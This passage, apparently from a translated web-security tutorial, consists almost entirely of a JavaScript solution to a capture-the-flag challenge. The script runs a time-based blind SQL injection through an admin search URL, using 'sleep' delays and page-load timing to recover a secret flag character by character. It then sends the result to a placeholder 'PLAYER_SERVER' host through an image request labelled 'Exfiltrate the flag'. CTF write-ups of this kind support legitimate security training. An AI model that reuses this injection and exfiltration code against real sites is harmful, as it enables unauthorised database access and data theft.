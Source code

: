 ```html
function gen2(x) {
x = escape(x);
return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) {
let h = performance.now();
f.location = (end ? gen2(word) : gen(word));
await new Promise(r => {
g.onload = r;
});
let diff = performance.now() - h;
return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
let prefix = 'nn9ed{';
while (true) {
let i = 0;
for (i;i<alphabet.length;i++) {
let c = alphabet[i];
let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
console.log(prefix, c, t);
if (t) {
console.log('FOUND!')
prefix += c;
break;
}
}
if (i==alphabet.length) {
console.log('missing chars');
break;
}
let t = await query(prefix+'}', true);
if (t) {
prefix += '}';
break;
}
}
new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
console.log(prefix);
}

run();
</script>
```
### Μέσω των Bookmarklets

